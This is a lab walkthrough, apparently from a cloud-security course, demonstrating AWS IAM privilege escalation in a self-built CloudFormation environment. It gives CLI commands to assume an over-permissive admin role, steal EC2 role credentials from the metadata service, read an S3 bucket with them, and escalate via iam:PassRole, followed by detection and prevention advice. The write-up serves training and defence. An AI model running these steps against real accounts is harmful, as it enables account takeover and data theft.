


> **Disclaimer:** All IAM credentials, public IP addresses, and sensitive data shown in this writeup have been removed, and the entire AWS environment was securely cleaned up prior to publication.


# Attack 5 — Insecure IAM Permissions

## Prerequisites

Before starting, I made sure the following were in place:

1. `My-Desktop-Key-Pair` key pair exists (for EC2 SSH access)
2. AWS CLI installed and configured
3. Basic familiarity with `aws sts assume-role` and environment variables

## Scenario

This attack is structured as a three-scenario chain — each step unlocks the next, just like a CTF. The attacker starts with a low-privilege IAM user and progressively escalates through three distinct IAM misconfigurations:

1. **Scenario 1** — Enumerate IAM roles, discover one named `admin` with `Action: *` on `Resource: *`, and assume it using the lab user's `sts:AssumeRole` permission
2. **Scenario 2** — With admin credentials, find an EC2 instance with an attached IAM role that has wildcard S3 and EC2 permissions; SSH in, steal the instance credentials via the metadata service, and use them to access the sensitive S3 bucket
3. **Scenario 3** — Use a separate vulnerable user (with `iam:PassRole`) to launch a new EC2 instance carrying a fully privileged role — gaining admin-equivalent access without ever being directly granted it

---

## Overview

### What Makes IAM Permissions Vulnerable?

IAM misconfigurations are the most impactful single category of cloud security issues. Unlike a misconfigured S3 bucket which exposes one storage location, a misconfigured IAM role can give an attacker keys to the entire AWS account.

The most common mistakes:

- **Overly permissive policies** — using `AdministratorAccess` or `Action: "*", Resource: "*"` when only a handful of specific actions are needed. Often the result of copy-paste deployments under time pressure
- **Wildcard actions on sensitive services** — `s3:*`, `ec2:*`, `iam:*` on `Resource: "*"` grants complete control over entire service categories
- **`iam:PassRole` misuse** — allowing a user to pass a highly privileged role to an AWS service. Even if the user can't directly perform privileged actions, they can instruct a service (like EC2) to do it on their behalf, achieving indirect privilege escalation
- **Resource-level wildcards** — policies that use `*` for resource ARNs, granting access to all instances, all buckets, or all functions rather than scoped, specific resources

---

## Deploy the Vulnerable IAM Environment

### Step 1 — Deploy via CloudFormation

I navigated to **CloudFormation → Create stack → Choose an existing template**.

Upload `insecure-iam-permissions.yaml` from the exercise files repository (https://github.com/projectsecio/exercise-files/tree/main/cloud-attacks-101/attacks_cf_templates):

[Download Template](insecure_iam_permissions.yaml)

Configure parameters:
- **Stack name:** `insecure-iam-permissions`
- **KeyPairName:** `My-Desktop-Key-Pair`
- **InstanceType:** `t3.micro` (default)

I selected **Submit** and wait for **CREATE_COMPLETE**.

> 📝 The template creates the full scenario chain: a lab user with minimal IAM enumeration + AssumeRole permissions, an overly permissive `admin` role, a wildcard EC2 instance with S3/EC2 wildcard permissions, a sensitive S3 bucket, a vulnerable user with `iam:PassRole`, and a privileged role as the final escalation target.

---

### Step 2 — Review CloudFormation Outputs

Once the stack completes, open the **Outputs** tab in the CloudFormation console. Note all values — you'll need them throughout the scenarios.

| Output Key | Used In |
|---|---|
| `LabUserName`, `LabUserAccessKeyId`, `LabUserSecretAccessKey` | Scenario 1 — starting credentials |
| `AdminRoleName`, `AdminRoleArn` | Scenario 1 — target role |
| `EC2PublicIP`, `SSHAccess` | Scenario 2 — EC2 instance access |
| `SensitiveBucketName` | Scenario 2 — S3 target |
| `VulnerableUserAccessKeyId`, `VulnerableUserSecretAccessKey` | Scenario 3 — PassRole credentials |
| `PrivilegedRoleName`, `PrivilegedInstanceProfileName` | Scenario 3 — escalation target |
| `PublicSubnetId`, `SecurityGroupId` | Scenario 3 — EC2 launch parameters |



---

## Scenario 1 — Assume the Overly Permissive Admin Role

### Step 3 — Configure the Lab User Profile

Set up the lab user credentials in the CLI:

```bash
aws configure set aws_access_key_id <LabUserAccessKeyId> --profile lab-user
aws configure set aws_secret_access_key <LabUserSecretAccessKey> --profile lab-user
aws configure set region ap-southeast-1 --profile lab-user

# Verify identity
aws sts get-caller-identity --profile lab-user
```


This lab user has only two permissions: enumerate IAM roles and assume the `admin` role. Nothing else.

### Step 4 — Enumerate IAM Roles

List all roles in the account:

```bash
aws iam list-roles \
  --query 'Roles[*].[RoleName,Arn]' \
  --output table \
  --profile lab-user
```


Spot the `admin` role. Inspect its policy to understand what it allows:

```bash
aws iam list-role-policies --role-name admin --profile lab-user
aws iam get-role-policy --role-name admin --policy-name FullAccessPolicy --profile lab-user
```


**Key finding:** The `admin` role has `Action: *, Resource: *` — effectively `AdministratorAccess`. The trust policy allows our lab user to assume it.

### Step 5 — Assume the Admin Role

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::<account-id>:role/admin \
  --role-session-name escalation-session \
  --profile lab-user
```

Export the returned temporary credentials to environment variables:

```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId from response>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey from response>
export AWS_SESSION_TOKEN=<SessionToken from response>

# Confirm you now have admin identity
aws sts get-caller-identity
```


With admin access assumed, Scenario 1 is complete.

---

## Scenario 2 — Wildcard EC2 Credentials → S3 Access

### Step 6 — Find the EC2 Instance with a Wildcard Role

Using the admin credentials (exported environment variables), find all EC2 instances with attached instance profiles:

```bash
aws ec2 describe-instances \
  --query 'Reservations[*].Instances[*].[InstanceId,PublicIpAddress,IamInstanceProfile.Arn]' \
  --output table
```


### Step 7 — SSH into the Instance and Steal Credentials

I used the EC2 public IP from the CloudFormation Outputs:

```bash
ssh -i ~/.ssh/My-Desktop-Key-Pair.pem ec2-user@<EC2PublicIP>
```

From inside the instance, access the metadata service to get the attached role's credentials:

```bash
# Get the role name
ROLE_NAME=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)
echo "Attached role: $ROLE_NAME"

# Get the temporary credentials
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME
```


### Step 8 — I used the Wildcard Credentials to Access S3

Exit the SSH session and configure the stolen credentials in a new CLI profile:

```bash
aws configure set aws_access_key_id <AccessKeyId> --profile wildcard-role
aws configure set aws_secret_access_key <SecretAccessKey> --profile wildcard-role
aws configure set aws_session_token <Token> --profile wildcard-role
aws configure set region ap-southeast-1 --profile wildcard-role
```

Access the sensitive S3 bucket:

```bash
aws s3 ls --profile wildcard-role
aws s3 ls s3://<SensitiveBucketName>/ --profile wildcard-role
```

**Key finding:** The EC2 instance role has `s3:*` and `ec2:*` on `Resource: "*"`. By stealing these credentials from the metadata service, the attacker inherits full S3 and EC2 control.

---

## Scenario 3 — Privilege Escalation via iam:PassRole

### Step 9 — Configure the Vulnerable User

I used the Scenario 3 credentials from the CloudFormation Outputs:

```bash
aws configure set aws_access_key_id <VulnerableUserAccessKeyId> --profile vuln-user
aws configure set aws_secret_access_key <VulnerableUserSecretAccessKey> --profile vuln-user
aws configure set region ap-southeast-1 --profile vuln-user

aws sts get-caller-identity --profile vuln-user
```

### Step 10 — I confirmed the PassRole Permission

Check what policies this user has:

```bash
aws iam list-user-policies --user-name <VulnerableUserName from Outputs>
aws iam get-user-policy --user-name <VulnerableUserName> --policy-name PassRolePolicy
```


Find the privileged instance profile name:

```bash
aws iam list-instance-profiles --query 'InstanceProfiles[*].[InstanceProfileName,Roles[0].RoleName]' --output table
```

### Step 11 — Launch an EC2 Instance with the Privileged Role

The vulnerable user can't directly call privileged actions — but they can launch an EC2 instance *carrying* the privileged role, and that instance will have full admin credentials accessible via its metadata service.

Get the required infrastructure IDs from CloudFormation Outputs, then launch the instance:

```bash
SUBNET_ID=<PublicSubnetId from Outputs>
SG_ID=<SecurityGroupId from Outputs>
PROFILE_NAME=<PrivilegedInstanceProfileName from Outputs>

aws ec2 run-instances \
  --image-id ami-0a56f8447277affd8 \
  --instance-type t3.micro \
  --iam-instance-profile Name=$PROFILE_NAME \
  --key-name My-Desktop-Key-Pair \
  --subnet-id $SUBNET_ID \
  --security-group-ids $SG_ID \
  --profile vuln-user
```




**Key finding:** The vulnerable user had no direct admin permissions, but `iam:PassRole` allowed them to hand off the privileged role to EC2. Once the instance is running, SSHing into it and running `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>` yields full admin credentials — completing the privilege escalation.

---

## Potential Impact

The three-scenario chain demonstrates how IAM misconfigurations compound:

- **Full account compromise** — an overly permissive role assumed from a low-privilege user gives complete AWS access
- **Data exfiltration** — wildcard S3 permissions on an EC2 role means anyone who can SSH to the instance (or exploit an SSRF vulnerability) gets read/write to all S3 buckets
- **Infrastructure modification** — wildcard EC2 permissions allow creating, modifying, or destroying any instance in the account
- **Persistence** — once admin access is obtained, creating new IAM users, access keys, or backdoor roles ensures continued access even after the initial vector is patched
- **Financial impact** — launching expensive instance types or services at scale before the account owner notices

---

## Detection and Prevention

**How to detect this:**
- **CloudTrail** — `sts:AssumeRole` events, especially from unexpected IAM users or external IPs, are a reliable signal. Alert on any role assumption that uses a session name inconsistent with your organisation's naming conventions
- **GuardDuty** — `PrivilegeEscalation:IAMUser/AdministrativePermissions` and similar findings fire when unusual privilege escalation patterns are detected
- **IAM Access Analyzer** — identifies roles that can be assumed from outside expected principals
- **AWS Config rule `iam-policy-no-statements-with-admin-access`** — flags policies with `Action: *, Resource: *`

**How to prevent it:**
- **Principle of least privilege** — grant only the specific actions needed for the specific resources in scope. `ec2:DescribeInstances` on `arn:aws:ec2:ap-southeast-1:123456789:instance/i-xxx` rather than `ec2:*` on `*`
- **Never use `Action: *` or `Resource: *`** — in any policy that isn't specifically the `AdministratorAccess` managed policy, and limit who has `AdministratorAccess`
- **Restrict `iam:PassRole`** — scope it to specific role ARNs rather than `*`, and add a condition key like `iam:PassedToService` to restrict which services the role can be passed to
- **Require MFA for role assumption** — add a `Condition: {"Bool": {"aws:MultiFactorAuthPresent": "true"}}` to trust policies for sensitive roles
- **Regular IAM access reviews** — use IAM Access Analyzer and AWS Security Hub on a schedule to surface overly permissive configurations before they're exploited

---

## Cleanup

```bash
aws cloudformation delete-stack --stack-name insecure-iam-permissions
aws cloudformation wait stack-delete-complete --stack-name insecure-iam-permissions
```

> 📝 CloudFormation will automatically delete all IAM roles, policies, users, and EC2 instances. IAM resource deletion may take a few extra minutes.

> Unset any exported environment variables and remove CLI profiles created during this exercise:
> ```bash
> unset AWS_ACCESS_KEY_ID AWS_SECRET_ACCESS_KEY AWS_SESSION_TOKEN
> ```

---

*That wraps up the attacks section. Next up — we flip to the blue team side with the CA101 Defenses series, covering CloudTrail detections, AWS Config compliance rules, Secrets Manager, and SSM Manager.*
*Next up — Part 15 - Defense 2: AWS Config for IAM Compliance.*
